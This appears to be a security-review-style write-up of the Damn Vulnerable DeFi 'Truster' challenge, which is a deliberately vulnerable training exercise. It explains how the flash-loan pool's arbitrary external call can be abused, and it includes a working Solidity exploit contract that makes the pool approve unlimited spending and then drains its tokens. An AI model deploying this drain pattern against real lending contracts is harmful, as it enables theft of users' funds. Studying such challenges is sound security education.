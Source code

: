 # Truster

Truster is a [damnn vulnerable defi challenge](https://www.damnvulnerabledefi.xyz/challenges/3.html), a new pool has launched that is offering flash loans of DVT tokens for free.

# Introduction

<!-- TODO  -->
Truster offers flash loans of DVT tokens for free, currently the pool has 1 milion DVT tokens in balance.

The focus of the security review was on the following:

1. Ensure that the system is implemented consistently with the intended functionality, and without unintended edge cases.
2. Identify known vulnerabilities particular to smart contract systems, as outlined in our [Smart Contract Best Practices](https://consensys.github.io/smart-contract-best-practices/), and the [Smart Contract Weakness Classification Registry](https://swcregistry.io/).

*Disclaimer:* This security review does not guarantee against a hack. It is a snapshot in time of brink according to the specific commit by a one person. Any modifications to the code will require a new security review.

# Findings 

## Critical Risk
### Theft of all DVT tokens

**Severity:** Critical

**Context:** [`TrusterLenderPool.sol#L21-L41`](https://github.com/tinchoabbate/damn-vulnerable-defi/blob/v2.2.0/contracts/truster/TrusterLenderPool.sol#L21-L41)

**Description:**
The contract have a function named as `flashLoan`, using this function we can borrow an amount of DVT tokens, this function receive amount to borrow `borrowAmount`, borrower address `borrower`, token address `target` and function called in token `data`.

```solidity
contract TrusterLenderPool is ReentrancyGuard {
    ...
    function flashLoan(
            uint256 borrowAmount,
            address borrower,
            address target,
            bytes calldata data
        )
            external
            nonReentrant
        {
            uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
            require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
            
            damnValuableToken.transfer(borrower, borrowAmount);
            target.functionCall(data);

            uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
            require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
        }
}
```

Using this function an attacker is able to stole all DVT Tokens, creating an exploit contract that call the `flashLoan` function, and passing this value in `data` parameter: `approve(address(this),type(uint).max)`.

```solidity
contract TrusterExploit {
    function attack(address _pool, address _token) public {
        TrusterLenderPool pool = TrusterLenderPool(_pool);
        IERC20 token = IERC20(_token); 

        bytes memory data = abi.encodeWithSignature("approve(address,uint256)", address(this), type(uint).max);
        pool.flashLoan(0, msg.sender, _token, data);

        token.transferFrom(_pool, msg.sender, token.balanceOf(_pool));
    }
}
```

In the code above, the exploit encode the data `approve(address(this),type(uint).max)` and send it via `pool.flashLoan` with the rest of the parameters, and this approve your contract to receive unlimited amount of DVT tokens.
And the following line transfers the entire TrusterLenderPool balance to the exploit contract.

**Recommendation:**
```diff
+ Do not execute data sent by an external contract within the functionCall.
- ...
```